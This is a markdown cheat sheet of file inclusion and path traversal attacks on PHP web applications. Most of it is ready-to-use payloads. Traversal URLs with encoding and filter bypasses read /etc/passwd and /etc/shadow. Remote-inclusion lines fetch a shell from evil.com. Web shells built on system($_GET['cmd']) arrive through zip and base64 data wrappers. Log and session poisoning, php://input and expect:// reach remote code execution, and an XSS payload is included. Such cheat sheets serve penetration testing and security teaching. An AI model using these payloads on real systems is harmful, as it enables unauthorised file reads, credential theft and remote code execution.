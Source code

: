 # File-Inclusion---Path-Traversal
File Inclusion - Path Traversal

# Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

Interesting files to check out :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

## Basic LFI
```
http://example.com/index.php?page=../../../etc/passwd

Null byte
http://example.com/index.php?page=../../../etc/passwd%00

Double encoding
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

Path truncation
http://example.com/index.php?page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=../../../../[…]../../../../../etc/passwd

Filter bypass
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
```

## Basic RFI (null byte, double encoding and other tricks)
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

## LFI / RFI Wrappers

LFI Wrapper rot13 and base64 - php://filter case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

can be chained with a compression wrapper
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```


LFI Wrapper ZIP
```python
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper DATA with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

Bonus XSS    
XSS via RFI/LFI with "<svg onload=alert(1)>" payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## LFI to RCE via /proc/*/fd
1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD
with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
/proc/self/environ can also be used


## LFI to RCE via Upload
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
You can injected the <?php system($_GET['c']); ?> into the metadata

## LFI to RCE via Phpinfo()
https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)


## LFI to RCE via input:// stream
Specify your payload in the POST parameters
```
http://example.com/index.php?page=php://input
POST DATA: <? system('id'); ?>
```

## LFI to RCE via controlled log file
Just append your PHP code into the log file and include it.
```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

## LFI to RCE via PHP Sessions
Check if the website use PHP Session (PHPSESSID)
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] files
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to <?php system('cat /etc/passwd');?>
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Use the LFI to include the PHP session file
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```


## Checklist - Common ways of upgrading from LFI to RCE
```
Using file upload forms/functions
Using the PHP wrapper expect://command
Using the PHP wrapper php://file
Using the PHP wrapper php://filter
Using PHP input:// stream
Using data://text/plain;base64,command
Using /proc/self/environ
Using /proc/self/fd
Using PHP Session
Using log files with controllable input like:
  /var/log/apache/access.log
  /var/log/apache/error.log
  /var/log/vsftpd.log
  /var/log/sshd.log
  /var/log/mail
```

## Thanks to
* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI ](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
* [Upgrade from LFI to RCE via PHP Sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)
* [Local file inclusion tricks](http://devels-playground.blogspot.fr/2007/08/local-file-inclusion-tricks.html)
